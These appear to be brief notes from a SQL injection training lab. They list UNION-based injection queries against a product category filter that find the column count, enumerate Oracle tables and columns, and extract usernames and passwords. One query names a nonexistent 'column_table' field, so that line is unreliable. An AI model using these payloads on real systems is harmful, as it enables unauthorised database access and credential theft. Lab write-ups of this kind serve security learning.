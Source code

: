 ![](/img2/Pasted%20image%2020250707172625.png)

- Injection

```sql
SELECT * FROM products WHERE category = 'Gifts' order by 2-- -' AND released = 1
```

```sql
SELECT * FROM products WHERE category = 'Gifts' union select '1','2' from dual-- -' AND released = 1
```

```sql
SELECT * FROM products WHERE category = '' union select NULL,table_name from all_tables-- -' AND released = 1
```

```sql
SELECT * FROM products WHERE category = '' union select NULL,column_table from all_tab_columns where table_name='USERS_KBPLFG'-- -' AND released = 1
```

```sql
SELECT * FROM products WHERE category = '' union select USERS_VMPUYU,PASSWORD_OEKSZB from USERS_KBPLFG-- -' AND released = 1
```
